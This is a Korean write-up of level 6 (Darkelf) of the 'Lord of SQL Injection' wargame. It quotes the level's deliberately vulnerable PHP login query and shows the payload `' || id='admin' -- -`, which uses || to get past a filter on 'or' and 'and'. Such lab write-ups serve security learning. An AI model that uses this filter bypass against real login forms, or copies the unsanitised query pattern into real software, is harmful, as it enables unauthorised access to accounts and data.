 # Lord of SQL Injection No.6 - Darkelp
## 문제 출제 의도
1. 'and', 'or' 없이 SQL문을 조작 할 수 있는지 확인.
## 소스 코드 분석
+ 소스코드
Darkelp의 소스코드는 다음과 같다.
    ~~~
    <?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect();  
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("darkelf"); 
    highlight_file(__FILE__); 
    ?>
    ~~~
+ 소스 코드 분석
    - GET방식으로 받은 pw 값에 'and'나 'or'가 들어있으면 "hehe"가 출력되고 문제 풀이에 실패한다.
    - 받아온 id 값에 0이 아닌 다른 값이 있다면 "Hello + id"가 출력된다.
    - 문제 풀이에 성공하는 조건은 데이터베이스에서 받아온 아이디 값이 'admin'일떄 이다.
## 문제 해결
+ 추가 문자열
    - admin 값을 id로 받아오기 위해서는 다음과 같은 문자열이 URL다음에 추가되어야 한다.
    ~~~
    ?pw=' or id='admin' -- -
    ~~~

+ || 이용
    - ||을 이용하면 or을 사용하지 않고 문자열을 조작할 수 있다.
    ~~~
    ?pw=' || id='admin' -- -
    ~~~
    따라서 위와 같은 문자열을 URL뒤에 추가하면 문제가 해결 된다.
